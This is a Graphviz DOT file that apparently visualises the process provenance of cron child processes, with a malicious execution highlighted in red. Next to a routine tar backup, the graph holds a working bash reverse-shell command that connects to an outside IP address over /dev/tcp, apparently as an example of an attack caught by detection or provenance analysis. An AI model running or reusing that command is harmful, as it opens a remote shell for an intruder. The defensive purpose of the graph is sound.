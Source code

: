 digraph G {

  26 [shape=Mrecord, label="{{/bin/cron:child_process}|{P|/bin/sh|-c,\"tar -zcf /var/backups/db.tgz /var/db/\"}}", fontsize=9, ];
  27 [shape=Mrecord, label="{{/bin/cron:child_process}|{P|/bin/sh|-c,\"bash -i \>\& /dev/tcp/2.20.253.67/4242 0\>\&1\"}}", fontsize=9, color="red", fontcolor="red"];
  25 [shape=Mrecord, label="{{/bin/cron:child_process}|{P|42}}", fontsize=9, ];
  20 [shape=Mrecord, label="{{/bin/cron:child_process}|{P|0}}", fontsize=9, ];
  24 [shape=Mrecord, label="{{/bin/cron:child_process}|{P|42}}", fontsize=9, ];

  25 -> 26 [label="EXEC", fontsize=8, ];
  25 -> 27 [label="EXEC", fontsize=8, color="red", fontcolor="red"];
  20 -> 24 [label="SETGID", fontsize=8, ];
  24 -> 25 [label="SETUID", fontsize=8, ]; 
}
